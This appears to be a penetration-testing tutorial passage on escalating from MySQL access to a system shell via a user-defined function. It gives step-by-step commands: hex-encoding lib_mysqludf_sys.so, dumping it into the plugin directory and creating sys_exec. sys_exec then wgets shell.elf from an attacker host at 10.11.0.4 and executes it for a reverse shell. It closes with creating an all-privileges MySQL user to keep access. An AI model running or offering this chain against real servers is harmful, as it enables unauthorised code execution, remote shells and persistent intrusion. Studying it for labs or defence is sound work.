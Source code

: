 First we install the dependencies to handle and compile it

```
root@kali$:sudo apt update && sudo apt install default-libmysqlclient-dev
```

Then a hex version of the .so shared object file is created with the following

```
<root@kali$:xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```

Then we log in to the mysql server and execute the followings:

```
mysql: Set @shell=[the hex value from the above command];
```

```
mysql:select @@plugin_dir;
```

\[make note of the plugin directory path]

```
mysql:select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
```

\[creating the function]

```
mysql:create function sys_exec returns int soname 'udf_sys_exec.so';
```

\[making sure the function has been created]

```mysql
mysql:select * from mysql.func where name='sys_exec';
```

Now on the attacking machine, we establish a listener and we generate an exploit with elf extension and put it in the web server directory to be downloaded Downloading the exploit from the attacking machine

```mysql
mysql:select sys_exec('wget http://10.11.0.4/shell.elf');
mysql:select sys_exec('chmod +x ./shell.elf');
mysql:select sys_exec('./shell.elf');
```

After executing the above successfully, we should receive a shell.

Note: Sometimes mysql is exposed to the public but you can’t connect to it from the internet due to a security precaution. The resolution to this issue is to have access to the machine That hosts the mysql server. Login to the mysql server and create a user to use it to login from outside the network

```
mysql> CREATE USER 'user'@'localhost' IDENTIFIED BY 'some_pass';
```

```
mysql> GRANT ALL PRIVILEGES ON *.* TO 'user'@'localhost'
    ->     WITH GRANT OPTION;
```

